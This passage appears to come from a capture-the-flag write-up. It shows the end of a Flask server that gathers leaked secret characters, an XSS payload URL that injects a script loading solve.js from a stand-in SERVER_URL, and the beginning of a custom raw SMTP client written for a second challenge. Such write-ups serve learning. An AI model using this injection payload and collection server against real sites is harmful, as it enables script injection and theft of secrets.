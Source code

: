 ```python
    print(f"Secret data updated: {''.join(secret_data)}", flush=True)
    return "OK", 200

@app.route('/ok')
def ok():
    index = int(request.args.get('index'))
    if index < 0 or index >= len(secret_data):
        return "Index out of range", 400
    if secret_data[index] == '':
        return "Secret not set", 400
    return "OK", 200

app.run(host='0.0.0.0', port=5000)
```
And after making GET request to `/xss?xss=<script>const%20k=0;const%20j=0</script><script%20src="SERVER_URL/solve.js"></script>`, I eventually got the secret and then the flag.
## bad-chess-challenge
This challenge was about SMTP. Nothing about web exploitation, plain SMTP with S/MIME which made me suffer a lot. Sometimes, I could sign but then it returned invalid signature. After a lot of trials and errors, I came up with my own STMP client (a simple one, kinda insecure, but simple enough to be able to send raw data).
```javascript
const net = require("net");
const EventEmitter = require("events");

class My_SMTP_Client {
    stage = 0;
    socket = null;

    constructor(
        host,
        port,
        from,
        to,
        subject,
        data,
        email_parsed = false,
        debug = false
    ) {
        this.host = host;
        this.port = port;
        this.from = from;
        this.to = to;
        this.subject = subject;
        this.data = data;
        this.emitter = new EventEmitter();
        this.email_parsed = email_parsed;
        this.debug = debug;

        this.socket = net.createConnection(
            { port: port, host: host },
            () => {}
        );
        this.socket.on("data", (data) => {
            const ret_data = data.toString();
            if (this.debug) {
                console.log("Received data: ", ret_data);
            }
            switch (this.stage) {
                case 0:
                    if (ret_data.indexOf("220") !== -1) {
                        this.HELO();
```